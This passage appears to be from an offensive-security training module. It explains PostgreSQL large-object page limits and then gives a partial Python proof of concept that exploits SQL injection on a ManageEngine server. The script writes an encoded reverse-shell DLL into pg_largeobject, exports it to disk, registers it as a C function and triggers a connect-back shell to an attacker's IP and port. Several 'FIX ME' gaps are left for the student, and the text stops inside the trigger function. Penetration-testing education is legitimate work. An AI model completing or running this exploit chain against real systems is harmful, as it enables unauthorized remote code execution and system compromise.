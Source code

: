 Next we need to deal with the 2KB page boundaries. You may wonder why we don't simply put our entire payload into page 0 and export that. Sadly, that won't work. If any given page contains more than 2048 bytes of data, _lo_export_ will fail. This is why we have to create additional pages with the same _loid_.

The remainder of our steps should look familiar based on the lessons we previously learned in this module.

There are a few small issues you will need to solve before you can remotely launch a reverse shell on the vulnerable ManageEngine server. Below you will find a proof of concept code that already implements most of the steps we discussed. You just need to put your payload in and fix up the "FIX ME" sections.

```
import requests, sys, urllib, string, random, time
requests.packages.urllib3.disable_warnings()

# encoded UDF rev_shell dll
udf ='YOUR DLL GOES HERE'
loid = 1337

def log(msg):
   print msg

def make_request(url, sql):
   log("[*] Executing query: %s" % sql[0:80])
   r = requests.get( url % sql, verify=False)
   return r

def delete_lo(url, loid):
   log("[+] Deleting existing LO...")
   sql = "SELECT lo_unlink(%d)" % loid
   make_request(url, sql)

def create_lo(url, loid):
   log("[+] Creating LO for UDF injection...")
   sql = "SELECT lo_import($$C:\\windows\\win.ini$$,%d)" % loid
   make_request(url, sql)
   
def inject_udf(url, loid):
   log("[+] Injecting payload of length %d into LO..." % len(udf))
   for i in range(0,((len(udf)-1)/--------FIX ME--------)+1):
         udf_chunk = udf[i*--------FIX ME--------:(i+1)*--------FIX ME--------]
         if i == 0:
             sql = "UPDATE PG_LARGEOBJECT SET data=decode($$%s$$, $$--------FIX ME--------$$) where loid=%d and pageno=%d" % (udf_chunk, loid, i)
         else:
             sql = "INSERT INTO PG_LARGEOBJECT (loid, pageno, data) VALUES (%d, %d, decode($$%s$$, $$--------FIX ME--------$$))" % (loid, i, udf_chunk)
         make_request(url, sql)

def export_udf(url, loid):
   log("[+] Exporting UDF library to filesystem...")
   sql = "SELECT lo_export(%d, $$C:\\Users\\Public\\rev_shell.dll$$)" % loid
   make_request(url, sql)
   
def create_udf_func(url):
   log("[+] Creating function...")
   sql = "create or replace function rev_shell(text, integer) returns VOID as $$C:\\Users\\Public\\rev_shell.dll$$, $$connect_back$$ language C strict"
   make_request(url, sql)

def trigger_udf(url, ip, port):
   log("[+] Launching reverse shell...")
   sql = "select rev_shell($$%s$$, %d)" % (ip, int(port))
```